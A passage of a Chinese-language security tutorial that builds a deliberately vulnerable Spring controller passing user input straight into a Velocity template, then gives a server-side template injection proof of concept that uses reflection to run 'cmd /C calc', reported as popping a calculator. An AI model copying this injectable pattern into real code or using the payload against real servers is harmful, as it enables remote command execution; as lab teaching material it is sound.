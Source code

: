 第二：编写 VelocityController

```bash
package com.example.javasecssti;

import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.StringWriter;

@Controller
public class VelocityController {
    @RequestMapping("/ssti/velocity")
    @ResponseBody
    public String velocity1(@RequestParam(defaultValue="nth347") String username) {
        String templateString = "Hello, " + username + " | Full name: $name, phone: $phone, email: $email";

        Velocity.init();
        VelocityContext ctx = new VelocityContext();
        ctx.put("name", "Nguyen Nguyen Nguyen");
        ctx.put("phone", "012345678");
        ctx.put("email", "nguyen@vietnam.com");

        StringWriter out = new StringWriter();
        // 将模板字符串和上下文对象传递给Velocity引擎进行解析和渲染
        Velocity.evaluate(ctx, out, "test", templateString);

        return out.toString();
    }

}
```

第三：启动测试  
poc

```bash
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc")
```

[![](assets/1701606782-48d331a59570aac1cd6381d552afab86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172926-7b04d2fe-7a2b-1.png)  
命令执行成功，弹出计算器
